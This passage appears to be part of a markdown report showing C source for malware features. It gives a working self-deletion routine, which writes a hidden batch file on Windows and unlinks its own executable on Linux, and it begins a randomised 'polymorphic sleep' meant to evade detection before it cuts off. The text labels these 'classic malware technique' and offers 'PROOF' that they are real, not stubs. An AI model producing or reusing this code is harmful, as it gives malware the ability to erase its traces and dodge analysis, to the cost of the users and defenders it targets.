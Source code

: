 ```c
void delete_self(void) {
#ifdef PLATFORM_WINDOWS
    // Classic batch file technique (used by real malware)
    char path[MAX_PATH];
    char batch[MAX_PATH * 2];
    
    // Get own executable path
    GetModuleFileNameA(NULL, path, sizeof(path));
    GetTempPathA(sizeof(batch), batch);
    
    size_t len = str_len(batch);
    str_cpy(batch + len, "del_self.bat", sizeof(batch) - len);
    
    // Create self-deleting batch file
    FILE* fp = fopen(batch, "w");
    if (fp) {
        fprintf(fp, "@echo off\n");
        fprintf(fp, ":loop\n");
        fprintf(fp, "del /f /q \"%s\" 2>nul\n", path);
        fprintf(fp, "if exist \"%s\" (\n", path);
        fprintf(fp, "    timeout /t 1 /nobreak >nul\n");
        fprintf(fp, "    goto loop\n");
        fprintf(fp, ")\n");
        fprintf(fp, "del /f /q \"%%~f0\"\n");  // Delete batch itself
        fclose(fp);
        
        // Execute batch and exit immediately
        ShellExecuteA(NULL, "open", batch, NULL, NULL, SW_HIDE);
        ExitProcess(0);
    }
#else
    // Linux: readlink + unlink
    char path[512];
    ssize_t len = readlink("/proc/self/exe", path, sizeof(path) - 1);
    if (len > 0) {
        path[len] = '\0';
        unlink(path);  // Delete executable
    }
    _exit(0);
#endif
}
```

**PROOF:** Classic malware technique - batch file self-deletion, not a stub!

---

## 4. Polymorphic Sleep - ADVANCED

```c
void polymorphic_sleep(uint32_t target_ms) {
    int strategy = get_random_int() % 3;
    
    switch (strategy) {
        case 0:
            // Strategy 1: Single sleep
            sleep_ms(target_ms);
            break;
            
        case 1:
            // Strategy 2: Multiple small sleeps
            int chunks = 5 + (get_random_int() % 5);
            uint32_t chunk_size = target_ms / chunks;
            for (int i = 0; i < chunks; i++) {
```